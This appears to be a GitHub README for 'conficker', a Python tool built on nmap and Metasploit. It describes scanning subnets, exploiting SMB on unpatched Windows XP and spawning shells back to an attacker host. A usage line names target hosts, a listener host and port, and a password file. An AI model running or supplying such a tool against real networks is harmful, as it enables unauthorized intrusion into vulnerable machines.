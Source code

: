 conficker
=========

scan and exploit SMB on unpatched Win XP boxes automatically to spawn shell (scans subnets with CIDR notation)

USAGE: <br/>
python conficker.py -H <RHOSTS> -l <LHOST> [-p <LPORT> -F <Password File>]

LPORT and Password File parameters are optional. LPORT defaults to 1337.

CREDITS: <br/>
Violent Python - for providing the skeleton even though they teach bad coding practice, and debugging is necessary

REQUIREMENTS: <br/>
-python2 nmap module <br/>
-nmap <br/>
-metasploit <br/>